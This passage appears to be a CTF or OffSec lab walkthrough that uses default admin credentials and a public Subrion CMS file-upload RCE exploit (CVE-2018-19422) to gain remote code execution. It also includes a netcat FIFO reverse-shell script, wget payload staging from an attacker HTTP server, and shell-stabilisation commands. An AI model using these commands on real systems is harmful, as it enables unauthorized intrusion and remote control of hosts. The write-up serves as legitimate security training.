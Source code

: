 
Trying out the following `admin:admin` credential i was able to login to the Admin panel


![](https://i.imgur.com/ZmDDaRu.png)


## **FootHold**


After navigating through the web app, i was not able to find something through the web application to give us foothold so decided to enumerate for the version **"Subrion 4.2"** and found an Authenticated Remote Code Execution via File Upload, You can download the exploit from [here](https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE) and run as shown below.


```bash
❯ git clone https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE.git
❯ cd CVE-2018-19422-SubrionCMS-RCE
❯ python3 SubrionRCE.py -u http://exfiltrated.offsec/panel/ -l admin -p *****
```



![](https://i.imgur.com/MgT80q6.png)


Since this is not a stable shell, but a PHP web shell that gave us RCE, we need to get a stable shell by uploading our own reverse shell payload into the machine, Go ahead and save the following into a file called `shell.sh`


```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.209 1234 >/tmp/f
```


Now transfer the file to the web shell we got earlier as user `www-data` from your local machine to the `/tmp` directory of the target machine as this directory is always world writable on CTFs

```bash
# Attacker-Machine
python3 -m http.server 80

# Target-Machine
wget 192.168.45.209/shell.sh -O /tmp/shell.sh
```




![](https://i.imgur.com/FvUvFJc.png)


Once this is done, we can then gain a reverse shell by starting up a listener and executing the `shell.sh` on our target system, then stabilize our shell


```bash
# Attacker-Machine
nc -lvnp 1234

# Target-Machine
bash /tmp/shell.sh

# Stabilize Reverse Shell
script -qc /bin/bash
[Ctrl+z] # Suspend process
stty raw -echo; fg
export TERM=xterm-256color
```

